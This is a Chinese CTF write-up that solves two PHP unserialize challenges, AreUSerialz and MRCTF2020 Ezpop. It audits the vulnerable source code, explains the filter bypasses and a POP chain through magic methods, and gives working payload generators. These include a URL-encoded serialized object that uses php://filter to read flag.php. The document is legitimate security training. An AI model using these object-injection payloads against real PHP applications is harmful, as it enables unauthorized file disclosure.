



# web

## [网鼎杯 2020 青龙组]AreUSerialz

1. 代码审计

   ```php
   <?php
   
   include("flag.php");
   
   highlight_file(__FILE__);
   
   class FileHandler {
   
       protected $op;
       protected $filename;
       protected $content;
   
       function __construct() {
           $op = "1";
           $filename = "/tmp/tmpfile";
           $content = "Hello World!";
           $this->process();
       }
   
       public function process() {
           if($this->op == "1") {
               $this->write();
           } else if($this->op == "2") {
               $res = $this->read();
               $this->output($res);
           } else {
               $this->output("Bad Hacker!");
           }
       }
   
       private function write() {
           if(isset($this->filename) && isset($this->content)) {
               if(strlen((string)$this->content) > 100) {
                   $this->output("Too long!");
                   die();
               }
               $res = file_put_contents($this->filename, $this->content);
               if($res) $this->output("Successful!");
               else $this->output("Failed!");
           } else {
               $this->output("Failed!");
           }
       }
   
       private function read() {
           $res = "";
           if(isset($this->filename)) {
               $res = file_get_contents($this->filename);
           }
           return $res;
       }
   
       private function output($s) {
           echo "[Result]: <br>";
           echo $s;
       }
   
       function __destruct() {
           if($this->op === "2")
               $this->op = "1";
           $this->content = "";
           $this->process();
       }
   
   }
   
   function is_valid($s) {
       for($i = 0; $i < strlen($s); $i++)
           if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
               return false;
       return true;
   }
   
   if(isset($_GET{'str'})) {
   
       $str = (string)$_GET['str'];
       if(is_valid($str)) {
           $obj = unserialize($str);
       }
   
   }
   ```

2. 简单梳理下流程，首先通过`GET`方法传递参数，然后进行字符串ascii码检测，通过后进行反序列化给`obj`变量，构造魔术方法就不用看了，因为对象最后会被销毁，会执行析构函数魔术方法，然后判断对象成员`op`的值是否等于2，进行判断使用写入文件还是读取文件。

3. 这道题因为写了`include("flag.php")`，那肯定是读取文件，并且是相对路径，那么我们需要构造`op=2`来读取文件。

4. 这里需要绕过两个地方检测

   ```shell
   1.is_valid()函数规定字符的ASCII码必须是32-125，而protected属性在序列化后会出现不可见字符\00*\00，转化为ASCII码不符合要求。
   #PHP7.1以上版本对属性类型不敏感，public属性序列化不会出现不可见字符，可以用public属性来绕过
   
   2.process()方法中是==,而__destruct()魔术方法中是===,当反序列化后如果是op="2",就会重新赋值为"1"，跳转到写文件方法操作
   #利用php弱类型比较，2==“2”(true) 2==="2"(false)进行绕过
   ```

5. 构造payload直接读取`flag.php`

   ```php
   <?php
   class FileHandler {
   
       public $op=2;
       public $filename="flag.php";
       public $content="123";
       }
   
   $a=new FileHandler();
   echo serialize($a);
   //O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:3:"123";}
   ```

6. 还可以用`php://filter`伪协议进行读取

   ```php
   <?php
    
   class FileHandler {
    
       public $op = 2;
       public  $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
       public  $content = "123";
    
   }
    
   $a = new FileHandler();
   $b = serialize($a);
   echo $b;
    
   ?>
   ```

7. 利用工具提交

   

   

8. 因为buu环境的原因，可以直接读取`flag.php`，看了真实比赛的wp还要读取系统配置文件、容器配置文件来猜flag的绝对路径。以后来填坑。

## [MRCTF2020]Ezpop

1. 代码审计

   ```php
   Welcome to index.php
   <?php
   //flag is in flag.php
   //WTF IS THIS?
   //Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
   //And Crack It!
   class Modifier {
       protected  $var;
       public function append($value){
           include($value);
       }
       public function __invoke(){
           $this->append($this->var);
       }
   }
   
   class Show{
       public $source;
       public $str;
       public function __construct($file='index.php'){
           $this->source = $file;
           echo 'Welcome to '.$this->source."<br>";
       }
       public function __toString(){
           return $this->str->source;
       }
   
       public function __wakeup(){
           if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
               echo "hacker";
               $this->source = "index.php";
           }
       }
   }
   
   class Test{
       public $p;
       public function __construct(){
           $this->p = array();
       }
   
       public function __get($key){
           $function = $this->p;
           return $function();
       }
   }
   
   if(isset($_GET['pop'])){
       @unserialize($_GET['pop']);
   }
   else{
       $a=new Show;
       highlight_file(__FILE__);
   } 
   ```

2. 我们分开来看每个类，先看`Modifier`类，这里有`include`，应该是要调用这个类然后利用文件包含的方法进行读取`flag.php`

   ```php
   class Modifier {
       protected  $var;
       public function append($value){
           include($value);
       }
     //魔术方法，一个类以按一个函数的方法被调用时调用该魔术方法
       public function __invoke(){
           $this->append($this->var);
       }
   }
   ```

3. 来看下`show`类

   ```php
   class Show{
       public $source;
       public $str;
     //魔术方法，当对象被创建时，自动调用
       public function __construct($file='index.php'){
           $this->source = $file;
           echo 'Welcome to '.$this->source."<br>";
       }
     //魔术方法，当一个对象被当作字符串对待的时候执行该魔术方法
       public function __toString(){
           return $this->str->source;
       }
     //魔术方法，当反序列化操作时，自动调用
       public function __wakeup(){
           if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source))
             //将source进行转换为字符串，进行正则匹配
           {
               echo "hacker";
               $this->source = "index.php";
           }
       }
   }
   ```

4. 看一下最后一个类`Test`

   ```php
   class Test{
       public $p;
     //魔术方法，当对象被创建时，自动调用
       public function __construct(){
           $this->p = array();
       }
     //魔术方法，调用一个不存在的或者是无法访问的属性的时候被调用
       public function __get($key){
           $function = $this->p;
           return $function();
         //这里返回一个函数方法
       }
   }
   ```

5. 我们来整理下思路，我们要利用`Modifier`类中的`append`方法中的include函数，进行文件包含漏洞进行利用，触发条件是`__invoke`魔术方法，正好在`Test`类中`__get`魔术方法返回了函数方法，那将变量p创建为对象`Modifier`，就可以触发`__invoke`魔术方法，`__get`魔术方法，触发条件是调用一个不存在或者是无法访问的属性，那么就可以利用`show`类中的`__toString`魔术方法，将`str`创建为`test`类，当访问`source` 成员时，`Test`类没有`source`成员，触发`__get`魔术方法，`__toString`魔术方法触发条件是，当对象被当作字符串时，被调用，所以将`source`成员赋值为对象，当进行反序列化，调用`__wakeup`魔术方法进行正则匹配时，会将对象转换成字符串，触发`__toString`魔术方法

6. pop链

   ```shell
   1.反序列化，调用__wakeup魔术方法
   2.当$this->source为对象当作字符串进行正则匹配时，调用__toString魔术方法
   3.$this->str->source,当调用一个没有或者不可访问的属性时，触发__get魔术方法
   4.$function=$this->p是一个对象被函数方法调用时，触发__invoke魔术方法
   5.调用append方法，利用文件包含漏洞读取
   ```

7. payload

   ```php
   <?php
   
   class Modifier {
       protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
   }
   
   class Show{
       public $source;
       public $str;
       public function __construct($file){
           $this->source = $file;
           $this->str = new Test();
       }
       }
   
   class Test{
       public $p;
       public function __construct(){
           $this->p = new Modifier();
       }
   }
   $a =new Show('aaa');#先创建一个show对象，触发__construct魔术方法进行构建
   $b =new Show($a);#重新创建show对象，将source=$a对象，当进行反序列化操作时，触发对象当作字符串进行正则匹配时，调用__toString魔术方法
   echo urlencode(serialize($b));
   
   //O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Bs%3A3%3A%22aaa%22%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7D
   ```


8. base64解码得到flag
    
